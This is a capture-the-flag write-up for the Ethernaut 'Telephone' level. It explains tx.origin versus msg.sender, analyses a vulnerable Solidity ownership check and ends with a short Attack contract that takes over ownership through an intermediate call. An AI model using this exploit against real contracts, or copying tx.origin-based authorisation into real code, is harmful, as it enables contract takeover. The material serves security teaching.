


## Challenge
### Prompt
Claim ownership of the contract below to complete this level.
Things that might help
See the "?" page above, section "Beyond the console"
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
## Background

---

Solidity has built-in global variables automatically provided by the EVM. This challenge compares `msg.sender` and `tx.origin`.
`msg.sender` is the address that directly called the current function. When an EOA calls contract A, from A's perspective `msg.sender` is the EOA; when contract A calls contract B, from B's perspective `msg.sender` is A.
`tx.origin`, on the other hand, points to the EOA that originally initiated the transaction. No matter how many contract calls are chained in the middle, within a single transaction `tx.origin` stays the account that first signed it.
Shaping the call flow as below splits the two values apart.
```plain text
EOA -> Attack.attack() -> Telephone.changeOwner()
```
Here, from `Telephone`'s perspective `tx.origin` is the EOA and `msg.sender` is the `Attack` contract.

---

`tx.origin` only tells you the original sender of the transaction; it does not tell you who directly performed the current function call. So mixing `tx.origin` into an authorization check makes it vulnerable to call flows that insert an intermediate contract.
Logic that requires authorization, such as changing the owner, should normally be decided based on `msg.sender`. Checking the current caller lets you control which contract actually called the function.
## Challenge code analysis

---

The initial `owner` is set in the constructor.
```solidity
address public owner;

constructor() {
    owner = msg.sender;
}
```
The `msg.sender` at deployment time is stored as `owner`. On an Ethernaut instance, the level contract creates a new instance, so the player is not the `owner` at the start.
The goal is to change this `owner` value to the player's address.

---

Here is the condition in `changeOwner`.
```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```
`changeOwner` is a `public` function anyone can call. There's no additional restriction such as `onlyOwner`.
The condition is `tx.origin != msg.sender`. If the player EOA calls `changeOwner` directly, both `tx.origin` and `msg.sender` become the player's address, so the condition is not satisfied.
If the player instead calls an attacking contract that in turn calls `Telephone.changeOwner`, the two values split. Inside `Telephone`, `tx.origin` is the player EOA and `msg.sender` is the attacking contract's address. So the condition becomes true and we can change `owner` to any address we want.
## Solution
Place an `Attack` contract in the middle and call `Telephone.changeOwner` from inside it.
As the argument to `changeOwner`, put the player's address that will become the new `owner`. Then, from `Telephone`'s perspective, the direct caller is the `Attack` contract, so it passes the `tx.origin != msg.sender` condition.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract Attack {
    Telephone telephone;

    constructor(address addr) {
        telephone = Telephone(addr);
    }

    function attack() public {
        telephone.changeOwner(0x285ac9F8881D867556fCf6C16F26e3629F86C971);
    }
}
```


